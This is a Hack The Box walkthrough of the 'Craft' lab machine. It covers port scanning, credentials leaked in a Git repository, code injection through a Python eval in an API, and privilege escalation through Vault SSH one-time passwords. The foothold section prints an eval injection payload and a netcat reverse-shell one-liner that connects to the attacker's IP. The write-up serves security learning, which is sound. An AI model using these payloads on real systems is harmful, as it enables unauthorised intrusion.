 # 						  Craft - Hack The Box WalkThrough

### Victim IP: 10.10.10.110 Victim OS: Linux
### Enumeration - Namp
```
nmap -sV -sC -oA nmap_full -p1,65535 10.10.10.110
Nmap scan report for 10.10.10.110
Host is up (0.13s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
|_  256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (ED25519)
443/tcp  open  ssl/http nginx 1.15.8
|_http-server-header: nginx/1.15.8
|_http-title: About
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Not valid before: 2019-02-06T02:25:47
|_Not valid after:  2020-06-20T02:25:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
6022/tcp open  ssh      (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|_  2048 5b:cc:bf:f1:a1:8f:72:b0:c0:fb:df:a3:01:dc:a6:fb (RSA)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port6022-TCP:V=7.80%I=7%D=12/19%Time=5DFC45CB%P=x86_64-pc-linux-gnu%r(N
SF:ULL,C,"SSH-2\.0-Go\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 19 22:54:28 2019 -- 1 IP address (1 host up) scanned in 47.95 seconds   
```
### Enumerating the web page - https://craft.htb
![homepage](/images/1_test.py.png)

The "API" link points to api.craft.htb and the "Sign in" button to "gogs.craft.htb" therefore we add these as entries to our hosts file in other to be able to resolve and reach them.

### Enumeration - https://api.craft.htb
Small API with basic GET, POST, PUT, DELETE actions, might be an interesting point of entry.
Authentication required for POST, PUT
![api_craft](/images/api_craft.png)

### Enumeration - https://gogs.craft.htb
![gogs](/images/gogs_craft.png)
Clicking on __Explore__ leads to the public content of the repository.

Repository housing the code and content for api.craft.htb:
![commits](/images/craft_api_repo.png)
Reviewing all issues,commits and merge requests, dinesh's credentials were accidentally commited and removed: 
![dinesh_creds](/images/dinesh_creds.png)
The issue fix by dinesh also shows a dangerous python function (eval):
![eval_in_issue_fix](/images/eval_in_issue_fix.png)
The eval command resides in the POST brew function in brew.py and accepts user input.

The discovered credentials can be used in test.py
![1_test.py](/images/1_test.py.png)


### Initial foothold - Exploiting python eval function
Test 1: On local system:
![Test 1](/images/test1.png )

That works.
Test 2: with a similar "if" statement like in test.py:
![Test 2](/images/test2.png)

That works too, however there is no result returned when it is tried on the victim end.

Test 3: Ping from victim to local machine:
tcpdump -i tun0 -nnv icmp
Payload (test.py): 
```brew_dict['abv'] = '__import__("os").system("ping -c 3 10.10.14.4")' ```
 
Test 4. Reverse shell (http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):
Several failed till the netcat (without -e) option.

The payload in __test.py__ becomes: 
```brew_dict['abv'] = '__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 4445 >/tmp/f")'```

![Test 4](/images/test3.png)

It's says root! Well that was easy! 
But wait no user.txt or root.txt flags. Of course it couldn't be that easy 

Running "cat /etc/issue", LinEnum and linuxprivchecker again show that we are in a docker container
Release: Alpine Linux 3.9

### Obtaining User privileges  – user.txt
Dump database credentials – dbtest.py
![dbtest.py](/images/dbtest.py.png)

Modify the SQL in the try statement to select all users from the database
![db_dump](/images/dump_users.png)

Authenticate with discovered credentials and enumerate the git repository
All commits/merge requests ==> ssh private key, vault write commands …
<screenshot>
  
For now authenticate with the SSH private key and enter gilfoyle's password (dumped from the db/git password) as passphrase

### Elevating to root – Leveraging Vault SSH Secrets Engine
After obtaining user access on the machine more enumeration is required to discover interesting escalation vectors. Running linuxenum and privesc scripts did not recover any vulnerabilities right away but did point out the vault write.

### Exploring vault:
![vault_secrets](/images/vault_secrets_list.png)

Gilfoyle's OTP setup:

![otp_setup](/images/vault_write_ssh_otp.png)

Reviewing the SSH Secrets Engine Documentation: https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html 
gilfoyle@craft:~$ vault write ssh/creds/root_otp ip=127.0.0.1
![vault_write_ssh_otp](/images/vault_write_ssh_otp_new.png)

Then SSH to the host using the generated key and the root user:
![root.txt](/images/root.txt.png)

Conclusion:
This machine simulates a lot of real world scenarios. I was delighted at every discovery, learned a lot and reminded myself once again the importance of enumeration during a penetration test.
